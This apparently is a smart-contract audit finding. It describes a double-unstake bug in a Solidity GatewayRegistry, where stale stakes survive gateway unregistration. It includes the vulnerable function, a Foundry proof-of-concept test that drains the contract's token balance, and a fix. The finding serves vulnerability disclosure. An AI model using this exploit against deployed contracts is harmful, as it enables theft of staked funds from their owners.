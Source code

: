 `stakes` mapping is used to track all user stakes. The problem arises when we unregister the gateway, we do not delete the `stakes`, it can be exploited in the following steps:

- unstake tokens from the gateway
- unregister gateway
- register new gateway with the same `peerId`
- since `totalUnstaked = 0`, we can unstake tokens again

```solidity
  function _unstakeable(Gateway storage gateway) internal view returns (uint256) {
    Stake[] memory _stakes = stakes[keccak256(gateway.peerId)];
    uint256 blockNumber = block.number;
    uint256 total = 0;
    for (uint256 i = 0; i < _stakes.length; i++) {
      Stake memory _stake = _stakes[i];
      if (_stake.lockEnd <= blockNumber) {
        total += _stake.amount;
      }
    }
    return total - gateway.totalUnstaked;
  }
```

Here is the coded POC for `GatewayRegistry.unstake.t.sol `

```solidity
  function test_StealStakes() public {
    uint256 amount = 100;
    address alice = address(0xA11cE);
    token.transfer(alice, amount);

    // stakers stake into their gateways
    gatewayRegistry.stake(peerId, amount, 200);
    vm.startPrank(alice);
    token.approve(address(gatewayRegistry), type(uint256).max);
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    gatewayRegistry.stake(bytes("alice"), amount, 200);

    assertEq(token.balanceOf(address(gatewayRegistry)), 200);
    // exploit
    vm.roll(block.number + 300);
    gatewayRegistry.unstake(bytes("alice"), amount);
    gatewayRegistry.unregister(bytes("alice"));
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    // unstake again
    gatewayRegistry.unstake(bytes("alice"), amount);
    assertEq(token.balanceOf(address(gatewayRegistry)), 0);
  }
```

**Recommendations**

Delete `stakes` mapping when gateway is being unregistered.

